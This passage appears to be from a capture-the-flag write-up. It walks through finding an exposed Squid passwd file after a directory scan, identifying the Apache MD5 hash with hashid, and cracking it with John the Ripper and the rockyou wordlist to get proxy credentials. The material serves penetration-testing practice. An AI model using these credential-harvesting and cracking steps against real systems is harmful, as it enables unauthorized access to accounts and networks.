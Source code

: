 ```
/server-status (Status: 403)
===============================================================
2021/01/25 03:29:23 Finished
===============================================================

```

The scan found a few interesting directories. 

 * /admin - this one shows some website about a mucisian
 * /etc/ - this contains a directory listing containg a folder /etc/squid/ and this one contains a passwd file with a single set of creds

Let's start with the passwd file as it is always nice to get some credentials. 

First I check the hash type with `hashid`(hash scrambled here):

```
$ echo '$apr1$-------------------TTn.'|hashid                                                                                                                                                                             130 ⨯
Analyzing '$apr1$-------------------TTn.'
[+] MD5(APR) 
[+] Apache MD
```

OK so basically an MD5 hash - a quick job for John the Ripper. 

```
$john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s-------d        (music_archive)
1g 0:00:00:00 DONE (2021-01-25 03:24) 2.040g/s 79542p/s 79542c/s 79542C/s 112806..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

The password was found instantly so now we have a user/password set.

The /admin/squid folder also contains a squid.conf file:

```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

This hints that the Squid proxy installation is using the specific passwd file and hence the creds we have are for Squid. 
